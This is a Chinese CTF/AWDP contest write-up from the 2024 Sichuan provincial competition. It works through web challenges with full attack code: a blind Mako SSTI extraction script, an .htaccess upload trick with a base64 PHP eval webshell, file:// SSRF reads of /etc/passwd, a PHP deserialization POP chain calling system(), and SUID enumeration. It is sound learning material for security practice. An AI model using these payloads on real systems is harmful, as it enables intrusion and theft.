


+++
title = "四川省赛2024"
slug = "sichuan-provincial-2024"
description = ""
date = "2024-10-19T19:52:26"
lastmod = "2024-10-19T19:52:26"
image = ""
license = ""
categories = ["赛题"]
tags = ["awdp", "php"]
+++

# 0x01 说在前面

这次被两个哥哥带飞了，哎也就给打个下手(看脚本和信息收集还有找`flag`)，拿了一个二等奖

ctf:21/89,awdp:13/89

# 0x02 question

## CTF

### web1

一个`ssti`，但是感觉又不太像`ssti`

```
from flask import Flask, render_template, request, redirect, url_for
from flask_mako import MakoTemplates, render_template as mako_render_template
from mako.template import Template as Mako_T
# from flask_mako import MakoTemplates

app = Flask(__name__)
mako = MakoTemplates(app)

welcome_string = """
<!DOCTYPE html>
<html>
<head>
    <title>My APP</title>
    <style>
        body {
            font-family: Arial, sans-serif;
        }
        .header {
            background-color: #f2f2f2;
            padding: 10px;
            text-align: left;
        }
        .body {
            padding: 20px;
        }
    </style>
</head>
<body>
    <div class="header"> 
   Welcome %s !
   %%if title:
    This your admin page.
   %%endif
    </div>
    <div class="body">
        <p>This is your profile。</p>
    </div>
</body>
</html>
"""
welcome_message = "welcome"
black_list = ['${', 'import', 'os', 'system', 'popen', 'join', 'context', 'sys', '__', 'builtins', 'eval', 'exec', 'ord']

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        username = request.form['username']
        return redirect(url_for('welcome', username=username))
    return mako_render_template('index.html')

@app.route('/welcome')
def welcome():
    username = request.args.get('username')
    if len(username) > 42:
        return "error username"
    for key in black_list:
        if key.upper() in username.upper():
            return "bad username"
    if username == "Admin":
        return Mako_T(welcome_string % username).render(title=True)
    return Mako_T(welcome_string % username).render(title=False)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5002)

```

首先有个自定义模块，其实结果应该就是渲染，只不过这里经过测试发现在

`/`这个路由发包会重定向到`/welcome`，最后测试出来发包是在

```
http://172.65.15.156:5002/welcome?username=
```

然后就fuzz，发现只有这个payload可以用

```
<%1%>
```

并且是没有回显的，这里继续测试，想到说既然没有回显那么如何判断呢，其实是差不多的，只要打出不同界面即可，这里是`500`的界面(说着简单，测了老久了)

最后本地测试盲注语句

```
<%if open('/flag').read(1)[0]=='f':1/0%>

<%if open('/flag').read(2)[1]=='l':1/0%>
```

那么就很简单了，并且刚好是42个字符，后面增加到十位数时

```python
import requests

strings = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890{}-"
url = "http://172.65.15.156:5002/welcome?username="
target = ""
count=0
for i in range(1, 50):
    for j in strings:
        payload = "<%if open('/flag').read({})[{}]=='{}':1/0%>".format(i, count, j)
        r = requests.get(url=url + payload)
        if r.status_code == 500:
            print(j)
            count+=1
            target += j
            break

print(target)
```

### web2

进网站目录，发现阿帕奇，查看过滤名单，典型的htaccess和jpg文件，只不过这里会有点特殊

```php
<?php
define('UPLOAD_PATH', '/var/www/html/uploads');
$msg = null;
$is_upload = false;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name); // 删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); // 转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext); // 去除字符串::$DATA
        $file_ext = trim($file_ext); // 收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
                $msg = '文件上传成功！';
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
```

管他的先把数据包写出来发包

```
POST / HTTP/1.1
Host: 题目地址
Content-Length: 299
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary13s1QfAJff35ZBqb
Accept: */*
Origin: null
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary13s1QfAJff35ZBqb
Content-Disposition: form-data; name="submit"


 ‡ö
------WebKitFormBoundary13s1QfAJff35ZBqb
Content-Disposition: form-data; name="upload_file"; filename=".htaccess"
Content-Type: image/jpeg

#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
------WebKitFormBoundary13s1QfAJff35ZBqb--
```

然后上传`jpg`

```
GIF89a66
PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=
```

，诶咋一看，这不直接秒了，这里有点特殊，是个条件竞争，使用bp竞争，之前一直都是多线程，今天也是学到了怎么用bp



我忘记截图了，所以就用学长的



后面也是成功命令执行了

## awdp

### superadmin_php

日志包含，先看源码

sys-log.php

```php
<?php
                include "api/conn.php";
                foreach ($pdo->query('SELECT * from logs') as $row) {
                    $str = <<<EOF
                    <tr>
                        <td>
                            CONTENT
                        </td>
                    </tr>
EOF;
                    $str = str_replace("CONTENT",htmlspecialchars($row[1]),$str);
                    echo $str;
                    if(!preg_match("/php/i", $str)) {e
                        file_put_contents("temp/.temp", htmlspecialchars_decode($str));
                        include "temp/.temp";
                        unlink("temp/.temp");
                    }
                }
                ?>
```

index.php

```php
<?php
date_default_timezone_set("PRC");
error_reporting(0);
session_start();
$LOG = "访问日期:".date("Y-m-d H:i:s ")."IP:".$_SERVER['REMOTE_ADDR']." UA:".$_SERVER['HTTP_USER_AGENT'];
include "api/savelog.php";
if (!$_SESSION['user']){
    $_SESSION['user'] = substr(md5(time()),3,8);
}
?>
```

#### fix(done)

直接加墙就可以了

#### break(done)

我们测试(我每个界面都抓包难绷)，最后找到在日志UA头里面可以进行RCE，并且在日志管理界面进行回显的查看

### 神奇的个人信息录入系统

#### break(done)

没有源码不过我一看那个地方就可以进行xss，于是试了一下文件读取，成功了

```
POST /index.php HTTP/1.1
Host: 172.65.15.66
Content-Length: 46
Cache-Control: max-age=0
Origin: http://172.65.15.66
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.65.15.66/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

name=baozongwi&age=12&gender=Other&bio_url=file:///etc/passwd
```

然后读取源码发现是个框架的pop

```php
<?php
namespace App\Processor;

interface IProcess {
    public function process();
}

abstract class BaseHandler {
    public $functionName;
    public $functionArgs;

    public function __construct($functionName, $functionArgs = []) {
    $this->functionName = $functionName;
    $this->functionArgs = $functionArgs;
}

    abstract public function execute();
}

    class FileHandler extends BaseHandler {
        private $isAllowed;

        public function __construct($functionName, $functionArgs = [], $isAllowed = false) {
            parent::__construct($functionName, $functionArgs);
            $this->isAllowed = $isAllowed;
        }

        public function execute() {
                if ($this->isAllowed) {
                return call_user_func_array($this->functionName, $this->functionArgs);
                }
            return 'Execution not allowed';
        }
    }

    class FileReader implements IProcess {
        private $handler;
        private $isReady;

        public function __construct(FileHandler $handler, $isReady = false) {
            $this->handler = $handler;
            $this->isReady = $isReady;
        }

        public function process() {
            if ($this->isReady) {
                return $this->handler->execute();
            }
                return 'FileReader not ready';
            }
    }

    class Action {
        private $reader;
        private $isInitialized;

        public function __construct(FileReader $reader, $isInitialized = false) {
            $this->reader = $reader;
            $this->isInitialized = $isInitialized;
        }

        public function execute() {
            if ($this->isInitialized) {
                return $this->reader->process();
            }
                return 'Action not initialized';
            }
        }

    class Task {
        private $action;
        private $isSet;

        public function __construct(Action $action, $isSet = false) {
            $this->action = $action;
            $this->isSet = $isSet;
        }

        public function run() {
            if ($this->isSet) {
                return $this->action->execute();
            }
                return 'Task not set';
            }
    }

    class Processor {
        private $task;
        private $isConfigured;

        public function __construct(Task $task, $isConfigured = false) {
            $this->task = $task;
            $this->isConfigured = $isConfigured;
        }

    public function process() {
        if ($this->isConfigured) {
            return $this->task->run();
        }
            return 'Processor not configured';
        }
    }
    class Configurator {
        private $config;

        public function __construct($config) {
            $this->config = $config;
        }

        public function getConfig() {
            return $this->config;
        }

        public function setConfig($config) {
            $this->config = $config;
        }

        private function internalConfig() {
            return 'Configurator internal config';
        }
    }

    class MainProcessor {
        private $processor;
        private $isEnabled;

        public function __construct(Processor $processor, $isEnabled = false) {
            $this->processor = $processor;
            $this->isEnabled = $isEnabled;
        }

        public function run() {
            if ($this->isEnabled) {
                return $this->processor->process();
            }
                return 'MainProcessor not enabled';
        }

        public function __toString() {
                return $this->run();
            }   
        }

        class DataContainer {
            private $data;

            public function __construct($data) {
                $this->data = $data;
            }

            public function getData() {
                return $this->data;
            }

            public function setData($data) {
                $this->data = $data;
            }

            private function hiddenData() {
                return 'DataContainer hidden data';
            }
    }


    class SettingsManager {
        private $settings;

        public function __construct($settings) {
            $this->settings = $settings;
        }

        public function applySettings() {
            return 'SettingsManager applying ' . $this->settings;
        }

        public function getSettings() {
            return $this->settings;
        }

        public function setSettings($settings) {
            $this->settings = $settings;
        }

        private function privateSettings() {
            return 'SettingsManager private settings';
        }
    }

    class OptionHandler {
        private $options;

        public function __construct($options) {
            $this->options = $options;
        }

        public function handleOptions() {
            return 'OptionHandler handling ' . $this->options;
        }

        public function getOptions() {
            return $this->options;
        }

        public function setOptions($options) {
            $this->options = $options;
        }

        private function obscureOptions() {
            return 'OptionHandler obscure options';
        }
}

    class FeatureController {
        private $features;

        public function __construct($features) {
            $this->features = $features;
        }

        public function controlFeatures() {
            return 'FeatureController controlling ' . $this->features;
        }

        public function getFeatures() {
            return $this->features;
        }

        public function setFeatures($features) {
            $this->features = $features;
        }

        private function specialFeatures() {
            return 'FeatureController special features';
        }
        }

        class Serializer {
        public static function serialize($object) {
            return base64_encode(serialize($object));
        }

        public static function deserialize($data) {
            return unserialize(base64_decode($data));
        }
        }

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
$data = $_GET['data'];
$object = Serializer::deserialize($data);
if ($object instanceof MainProcessor) {
echo $object->run();
} else {
echo "Invalid data or MainProcessor not enabled";
}
}
?>
```

队友写出了pop链太强了

```
cat+/proc/21/environ
```

环境变量找，找了半天后面想到`whoami`这些命令都没有办法提权，那么典型了，我们找suid

```
find / -perm -u=s -type f 2>/dev/null


/bin/mount
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/readflag
/readflag
```

然后`/readflag`，哈哈有点激动，这里忘记放pop链子了，我觉得还是挺难的，但是哥哥带飞呀

```php
<?php
namespace App\Processor;

interface IProcess {
public function process();
}

abstract class BaseHandler {
public $functionName;
public $functionArgs;

public function __construct($functionName, $functionArgs = []) {
$this->functionName = $functionName;
$this->functionArgs = $functionArgs;
}

abstract public function execute();
}

class FileHandler extends BaseHandler {
private $isAllowed;

public function __construct($functionName, $functionArgs = ['/readflag'], $isAllowed = true) {
parent::__construct($functionName, $functionArgs);
$this->isAllowed = $isAllowed;
}

public function execute() {
if ($this->isAllowed) {
echo '函数调用成功！';
return call_user_func_array($this->functionName, $this->functionArgs);
}
return 'Execution not allowed';
}
}

class FileReader implements IProcess {
private $handler;
private $isReady;

public function __construct(FileHandler $handler, $isReady = true) {
$this->handler = $handler;
$this->isReady = $isReady;
}

public function process() {
if ($this->isReady) {
return $this->handler->execute();
}
return 'FileReader not ready';
}
}

class Action {
private $reader;
private $isInitialized;

public function __construct(FileReader $reader, $isInitialized = true) {
$this->reader = $reader;
$this->isInitialized = $isInitialized;
}

public function execute() {
if ($this->isInitialized) {
return $this->reader->process();
}
return 'Action not initialized';
}
}

class Task {
private $action;
private $isSet;

public function __construct(Action $action, $isSet = true) {
$this->action = $action;
$this->isSet = $isSet;
}

public function run() {
if ($this->isSet) {
return $this->action->execute();
}
return 'Task not set';
}
}

class Processor {
private $task;
private $isConfigured;

public function __construct(Task $task, $isConfigured = true) {
$this->task = $task;
$this->isConfigured = $isConfigured;
}

public function process() {
if ($this->isConfigured) {
return $this->task->run();
}
return 'Processor not configured';
}
}
class Configurator {
private $config;

public function __construct($config) {
$this->config = $config;
}

public function getConfig() {
return $this->config;
}

public function setConfig($config) {
$this->config = $config;
}

private function internalConfig() {
return 'Configurator internal config';
}
}

class MainProcessor {
private $processor;
private $isEnabled;

public function __construct(Processor $processor, $isEnabled = true) {
$this->processor = $processor;
$this->isEnabled = $isEnabled;
}

public function run() {
if ($this->isEnabled) {
return $this->processor->process();
}
return 'MainProcessor not enabled';
}

public function __toString() {
return $this->run();
}
}

class DataContainer {
private $data;

public function __construct($data) {
$this->data = $data;
}

public function getData() {
return $this->data;
}

public function setData($data) {
$this->data = $data;
}

private function hiddenData() {
return 'DataContainer hidden data';
}
}


class SettingsManager {
private $settings;

public function __construct($settings) {
$this->settings = $settings;
}

public function applySettings() {
return 'SettingsManager applying ' . $this->settings;
}

public function getSettings() {
return $this->settings;
}

public function setSettings($settings) {
$this->settings = $settings;
}

private function privateSettings() {
return 'SettingsManager private settings';
}
}

class OptionHandler {
private $options;

public function __construct($options) {
$this->options = $options;
}

public function handleOptions() {
return 'OptionHandler handling ' . $this->options;
}

public function getOptions() {
return $this->options;
}

public function setOptions($options) {
$this->options = $options;
}

private function obscureOptions() {
return 'OptionHandler obscure options';
}
}

class FeatureController {
private $features;

public function __construct($features) {
$this->features = $features;
}

public function controlFeatures() {
return 'FeatureController controlling ' . $this->features;
}

public function getFeatures() {
return $this->features;
}

public function setFeatures($features) {
$this->features = $features;
}

private function specialFeatures() {
return 'FeatureController special features';
}
}

class Serializer {
public static function serialize($object) {
return base64_encode(serialize($object));
}

public static function deserialize($data) {
return unserialize(base64_decode($data));
}
}

$filehander1 =new FileHandler("system");
$filereader1 =new FileReader($filehander1);
$action1 =new Action($filereader1);
$task1 =new Task($action1);
$processor =new Processor($task1);
$configurator1 =new Configurator("123");
$mainProcessor1= new MainProcessor($processor);
$sere_64=Serializer::serialize($mainProcessor1);
echo ($sere_64);
$object = Serializer::deserialize($sere_64);
if ($object instanceof MainProcessor) {
    echo $object->run();
    } else {
    echo "Invalid data or MainProcessor not enabled";
    }

?>


```

#### fix(done)

修了很久😔，欸不过队友终于是好了，把所有危险函数和类似的常见的`{}`这一类符号，全部加到我们RCE的地方，就可以了

### usersystem

#### break(stuck)

先扫描发现一个文件，下载之后拿到路由

```
System/Volumes/Data/Users/fmyyy/phpdebug/config.php


clas sdsclbool config php ptbLustr)
```

然后发现了这个函数,本地测试是过了通过闭合语句,但是结果还是不行哎呀呀😫

```php
<?php echo htmlspecialchars('1');echo `whoami`;('1');?>
```

但是拼接到网页就是不对emm，附件没什么特别的，就不放了

#### fix(done)

最后我们选择上通防，结果成功了

### readfile

#### break(done)

直接就读了，当时看到是java很怕怕，不过没看代码进去就干了

```
file:///flag
```

### txtcms

#### break(stuck)

是一个2014的CMS，找了文档奇葩没找到，这得多冷门啊，扫描后台发现这个东西

```
[00:03:16] 301 -  313B  - /static  ->  http://172.65.15.68/static/          
[00:03:18] 200 -  448B  - /uploads/                                         
[00:03:18] 301 -  314B  - /uploads  ->  http://172.65.15.68/uploads/        
[00:03:20] 200 -    1MB - /www.zip
```

拿到源码之后依然是框架，这里我们拿到了东西，可以直接进后台

```
index.php?Admin-Login-index.html

admin\admin
```

然后进了后台好像就广告位有点东西，其他的不知道了

# 0x03 小结

下来之后要学学misc了，明年就算我一个人也要二等奖
